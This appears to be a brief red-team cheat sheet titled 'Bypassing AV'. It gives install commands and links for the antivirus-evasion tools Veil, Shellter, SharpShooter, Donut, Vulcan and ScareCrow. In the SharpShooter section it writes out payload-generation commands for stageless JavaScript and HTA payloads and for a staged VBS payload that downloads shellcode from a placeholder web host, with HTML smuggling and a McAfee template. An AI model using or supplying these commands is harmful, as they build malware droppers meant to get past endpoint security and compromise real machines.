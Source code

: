 # Bypassing AV

### Veil Framework

Install on Kali:

```
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```
apt install shellter
```

### Sharpshooter

Javascript Payload Stageless:

```
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### Scarecrow

Source: [https://github.com/optiv/ScareCrow](https://github.com/optiv/ScareCrow)

```
sudo apt install golang
go get github.com/fatih/color go get github.com/yeka/zip go get github.com/josephspurrier/goversioninfo
go build ScareCrow.go
./ScareCrow
```
